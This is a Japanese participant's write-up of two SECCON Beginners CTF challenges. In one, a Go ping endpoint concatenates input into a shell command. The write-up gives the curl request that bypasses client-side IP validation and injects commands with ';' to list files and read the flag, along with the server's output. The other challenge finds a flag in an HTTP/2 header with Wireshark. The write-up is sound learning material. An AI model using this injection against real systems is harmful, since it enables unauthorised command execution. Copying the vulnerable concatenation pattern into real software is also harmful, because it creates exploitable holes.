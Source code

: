 # Write up
## 自分が解けた問題をメモがてら綴ってみる
<br>
チームの順位は、241位でした.チームメンバーで協力して問題を解けたのでよかったと思っています！（感謝🙏）
<br>
SECCON Beginners CTFは今回で２回目の参加でしたが、去年と比べ問題を理解して取り組むのに時間がかかってしまい、難化している印象がありました.（個人的に）来年参加する機会があれば、今年より多く問題を解けるように頑張りたいと思います！

![スクリーンショット](img/result.png)

1. ### Util (54 pt)
- 問題文
    > ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?  
- 概要
    <br>
    URLにアクセスするとテキストフォームがあり、フォームにIPアドレスを入力するとpingを送信した結果が表示される.

- 方針
    <br>
        index.htmlを見てみると、下にあるJavaScriptでフォームの入力値の検証を行なっていることがわかる.
    ~~~JavaScript
    //index.html
    ~~略~~

    if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address))

    ~~略~~
    ~~~
    また、main.goのサーバー側の処理をみると送信されたIPアドレスをparamから取り出したあと、コマンドと共に結合されてcommandに代入されていることがわかる。
    ~~~go
    //main.go
    ~~略~~

	r.POST("/util/ping", func(c *gin.Context) {
		var param IP
		if err := c.Bind(&param); err != nil {
			c.JSON(400, gin.H{"message": "Invalid parameter"})
			return
		}

		commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
		result, _ := exec.Command("sh", "-c", commnd).CombinedOutput()

		c.JSON(200, gin.H{
			"result": string(result),
		})
	})

    ~~略~~
    ~~~
    以上より、index.htmlのバリデーションを回避しつつ任意のコードを実行すればflagが取り出せそうと考える。
- 解
    <br>
    パラメーターの名前には、IPアドレスを入力するテキストフィールドのname属性である**address**を指定する.
    <br>
    送信する値にはIPアドレスの後を「;」で区切ることで任意のコードを実行できるので、**ls**や**cd**でflagを探すとflagが得られます.
        
    ~~~
    '{"address" : "127.0.0.1 ; 任意のコード"}'
    ~~~

    ~~~bash
    # 最終的なコード
    
    curl -X POST -H "Content-Type: application/json" -d '{"address":"127.0.0.1 ; cd ..;strings flag_A74FIBkN9sELAjOc.txt"}' [送信先URL]
    ~~~

    ※lsの結果は出力された文字列の最後の方に表示される（以下例）
    ~~~bash
    # 入力
    curl -X POST -H "Content-Type: application/json" -d '{"address":"127.0.0.1 ; cd ..　;　ls"}' [送信先URL]


    #　表示
    #0.144ms以降がlsの結果(\nは改行の意味)
    {"result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.144 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packetsreceived, 0% packet loss\nround-trip min/avg/max = 0.144/0.144/0.144ms\napp\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
    ~~~
___
2. ### H2 (69 pt)
- 概要
    <br>
    pcapファイルとヘッダーを操作しているらしきmain.goファイルが配られる.
- 方針
    <br>
    main.goファイルをみるとヘッダーになにやら怪しい**secret**を追加している.ヘッダーの**x-flag**について探せばflagが取れそう.
    ~~~go
    const SECRET_PATH = "<secret>"
    
    //略
    
    w.Header().Set("x-flag", "<secret>")
    ~~~
- 解
    <br>
    pcapファイルをwiresharkで解析する.検索対象を**Packet details**、**String**に設定し検索ワードを**x-flag**として検索.
    <br>
    下のタブを**Decompressed Header**にするとflagが現れる。
    > Edit > Find Packetで検索タブを表示.

    ![スクリーンショット](img/img.png)